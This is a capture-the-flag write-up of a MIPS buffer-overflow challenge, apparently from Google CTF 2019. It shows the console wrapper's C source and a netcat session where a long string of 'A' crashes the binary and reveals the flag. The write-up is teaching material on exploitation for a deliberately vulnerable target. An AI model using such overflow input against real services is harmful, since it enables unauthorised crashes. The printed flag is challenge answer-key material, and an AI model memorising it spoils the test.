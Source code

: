 # STOP GAN (bof) (pwn)

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

buffer-overflow.ctfcompetition.com 1337

Attachment: [4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a](https://storage.googleapis.com/gctf-2019-attachments/4a8becb637ed2b45e247d482ea9df123eb01115fc33583c2fa0e4a69b760af4a)


### Solution

```bash
> file ./bof
bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped
```
Yeah it's MIPS ... Let's take a look in a `console.c` file. This program doesn't do anything special, it just runs the `buf` app using the QEMU emulator.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

/**
 * 6e: bufferflow triggering segfault  - binary, compile with:
 * gcc /tmp/console.c -o /tmp/console -static -s
 *
 * Console allows the player to get info on the binary.
 * Crashing bof will trigger the 1st flag.
 * Controlling the buffer overflow in bof will trigger the 2nd flag.
 */

int main() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
  char inputs[256];
  printf("Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.\n Bonus flag for controlling the crash.\n");
  while(1) {
    printf("\nConsole commands: \nrun\nquit\n>>");
    if (fgets(inputs, 256, stdin) == NULL) {
      exit(0);
    }
    printf("Inputs: %s", inputs);
    if ( strncmp(inputs, "run\n\0", 256) == 0 ) {
      int result = system("/usr/bin/qemu-mipsel-static ./bof");
      continue;
    } else if ( strncmp(inputs, "quit\n\0", 256) == 0 ) {
      exit(0);
    } else {
      puts("Unable to determine action from your input");
      exit(0);
    }
  }
  return 0;
}
```
`Crashing bof will trigger the 1st flag.` so let's do buffer overflow.
```bash
> nc -v buffer-overflow.ctfcompetition.com 1337
Connection to buffer-overflow.ctfcompetition.com 1337 port [tcp/*] succeeded!
Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
 Bonus flag for controlling the crash.

Console commands:
run
quit
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
Console commands:
run
quit
```

**FLAG: CTF{Why_does_cauliflower_threaten_us}**
